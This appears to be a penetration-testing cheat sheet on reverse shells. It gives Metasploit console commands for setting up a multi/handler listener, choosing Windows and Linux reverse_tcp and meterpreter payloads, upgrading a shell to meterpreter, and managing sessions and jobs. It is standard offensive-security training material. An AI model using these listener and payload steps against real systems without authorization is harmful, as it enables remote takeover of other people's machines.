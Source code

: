 # Reverse Shell

## Multi Handler

* Start the PostgreSQL service `service postgresql start`.
* Start the metasploit console `msfconsole`.
* `use exploit/multi/handler`.

## Setting Up a listener in multi handler

* `set lhost 192.168.1.10`.
* `set lport 4444`.
* Then we need to specify the payload,
  * netcat shell \([https://netsec.ws/?p=292](https://netsec.ws/?p=292)\)
    * windows listener `set payload windows/shell/reverse_tcp`
    * linux listener `set payload linux/x86/shell/reverse_tcp`
  * meterpreter shell
    * windows listener `payload windows/meterpreter/reverse_tcp`
    * linux listener payload linux

## Upgrade Shell to meterpreter shell

* You need to have a metasploit listener for netcat.
* You need to create a new session. Either Ctrl+z or `background`.
* Then we need to change the exploit first to "shell\_to\_meterpreter".
  * `use post/multi/manage/shell_to_meterpreter`

## Session Management

### List active sessions and process

* Linux \(search for port 4444\)
  * lsof -t -i:4444
  * netstat -ano \| grep 4444
  * ps
* Windows
  * netstat -ano

### Managing "jobs" in metsploit framework

* List all jobs
  * jobs
* Kill all jobs
  * jobs -K
* Jobs help
  * help jobs
* 
### Killing a session

* Linux \(killing service with pid\)
  * kill -9 1234



![TCP connection states](../../../.gitbook/assets/image%20%2841%29.png)

